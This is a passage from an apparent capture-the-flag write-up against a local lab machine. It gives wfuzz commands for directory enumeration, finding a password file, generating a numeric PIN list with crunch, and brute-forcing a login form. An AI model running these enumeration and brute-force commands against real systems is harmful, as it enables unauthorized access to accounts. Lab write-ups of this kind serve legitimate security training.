 wfuzz directory enumeration:

     wfuzz -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt --sc 200 -t 50 http://192.168.56.118:4488/FUZZ

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553640093296_image.png)


“/server-status” looks well worth taking a stab at.

Navigating to `/server-status`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553640191793_image.png)


wfuzz: 'files + extensions’

    wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -w /usr/share/seclists/Discovery/Web-Content/web-mutations.txt --sc 200 -t 50 http://192.168.56.118:4488/FUZZFUZ2Z

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553641741149_image.png)


`pwds.db` discovered

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553641839567_image.png)


downloaded list locally now lets see if we can make this list work with our PinkSec login page.

What we have at this point:

Possible Username: pinkadmin

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553642646973_image.png)


Password List: pwds.db

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553642703944_image.png)


Pin: In my mind pin’s are normally numbers. or 100,000 combinations
create pin list with crunch:

    crunch 5 5 1234567890 > crunchpins.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553643652702_image.png)



# Brute Force Engage

with our combined information lets add it together and see if we can brute force this PinkySec Login page with wfuzz.

enumerating the correct username password:

    wfuzz -t 150 -w users.txt -w pwds.db -c -d "user=FUZZ&pass=FUZ2Z&pin=11111"  http://192.168.56.118:4480/login.php
